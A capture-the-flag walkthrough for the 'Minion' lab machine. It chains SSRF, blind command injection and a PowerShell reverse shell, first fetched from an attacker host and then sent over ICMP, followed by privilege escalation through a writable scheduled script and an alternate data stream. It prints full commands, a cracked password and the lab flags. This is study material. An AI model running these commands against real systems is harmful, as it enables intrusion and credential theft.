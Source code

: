 **Skills Required**
● Intermediate/Advanced knowledge of
Windows
● Intermediate PowerShell knowledge
**Skills Learned**
● Exploiting Server Side Request
Forgery
● Exploiting blind command injection
● Finding and reading alternate data
streams

Port 62696 (http)

Check the HTTP service, which is a website, with WhatWeb:

```
whatweb http://10.10.10.57:62696
```

WhatWeb returns "Microsoft-IIS 8.5" and "X-Powered-By: ASP.NET."

Since it's ASP.NET, you can fuzz for files with extensions like asp or aspx using Gobuster:

```
gobuster dir -u http://10.10.10.57:62696/ -w /directory --add-slas -x asp,aspx
```

This found the file "test.asp." When checking this file on the website, it displays a message: "Missing parameter Url [u] in GET request." So, you add the parameter to the URL and try making a GET request to the victim machine's localhost to attempt an SSRF and internal port discovery:

```
http://10.10.10.57:62696/test.asp?u=http://127.0.0.1
```

The machine has port 80 internally open, so you can try enumerating ports using wfuzz:

```
wfuzz -c --hw=89 -t 200 -z range,1-65535  http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:FUZZ
```

The website on localhost has port 80 open and is an "site administration" application with various options, including "system commands":

```
http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx
```

This leads you to an application where you can enter commands. You attempt to gain access through a reverse shell, for which you need to serve the "invoke-powershelltcp" script from the GitHub repository nishang through a local server on your machine. Here's how:

```bash
# On your machine
# Add this to the end of the script
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.4 -Port 1234
python -m http.server 80
nc -nlvp 1234

# On the victim's web
http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx?xcmd=powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/Invoke-PowerShellTcp.ps1')
```

This didn't work, so there might be firewall rules on the victim machine preventing the connection.

You then try to execute the reverse shell over ICMP using the nishang script "Invoke-PowerShellIcmp.ps1":

```bash
# On your machine
sysctl -w net.ipv4.icmp_echo_ignore_all=1
rlwrap icmpsh_m.py 10.10.14.29 10.10.10.57

# Add this to the end of the script
Invoke-PowerShellIcmp -IPAddress 10.10.14.4

# Remove line breaks from the script
cat Invoke-PowerShellIcmp.ps1 | sed '/^\s*$/d' | sponge Invoke-PowerShellIcmp.ps1

# Convert the script to base64 with iconv to upload it to the victim machine
cat Invoke-PowerShellIcmp.ps1 | iconv -t utf-16le | base64 -w 0 > Invoke-PowerShellIcmp.ps1.b64
fold Invoke-PowerShellIcmp.ps1.b64 | sponge Invoke-PowerShellIcmp.ps1.b64

# Upload the script line by line to the victim machine; you can automate this with a bash script
#!/bin/bash

counter=0
for line in $(cat icmp.ps1.b64); do
    echo -ne "[+] Total lines sent [$counter/87]\r"

    curl -s "http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx?xcmd=echo%20$line%20>>%20C:\Temp\prueba2.ps1"

    let counter+=1
done

# On the victim's web
http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx?xcmd=powershell $filecontent = Get-Content C:\Temp\prueba2.ps1; $decode = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($filecontent)); $decode > C:\Temp\pwn.ps1

# Execute the reverse shell
http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx?xcmd=powershell C:\Temp\pwn.ps1
```

This way, you gained access to the machine.

Privilege Escalation

In the root directory, there's the "sysadmscripts" directory, containing a PowerShell script and a .bat file.

The .bat file executes the PowerShell script at intervals on the system. Checking the permissions on the PowerShell script, you see that as the current user, you have privileges over this script and can modify it:

```
cacls c.ps1
```

You can take advantage of this to copy files owned by the user who controls the .bat file:

```
echo "copy C:\Users\decoder.MINION\Desktop\* C:\Temp" > C:\sysadmscripts\c.ps1
```

Among the copied files, you know there's the "backup.zip" file. You can try to view the alternative data stream:

```
cmd /c dir /r /s C:\Temp\
# This found hidden information; to view it:
type C:\Temp\backup.zip:pass
```

The content is an NTLM hash, which when cracked gives you a password "1234test" belonging to the Administrator user. Externally, the WinRM service is not active, so you can't connect to the machine through it, but you can execute commands as Administrator using PowerShell:

```
$user = 'minion\Administrator'; $password = '1234test'; $secPw = ConvertTo-SecureString $password -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential $user,$secPw; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { dir }
```

Taking advantage of this, you can change the firewall rules on the victim machine to gain conventional access:

```
$user = 'minion\Administrator'; $password = '1234test'; $secPw = ConvertTo-SecureString $password -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential $user,$secPw; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { New-NetFirewallRule -DisplayName kevin -RemoteAddress 10.10.14.4 -Direction inbound -Action allow }
```

Now you can perform a scan from your attacker machine and have access to the victim machine's ports and gain access through the WinRM service.

Root flag: 25afc18b756db150854

28015928a1cf1
User flag: 40b949f92b86b19a77986af9faf91601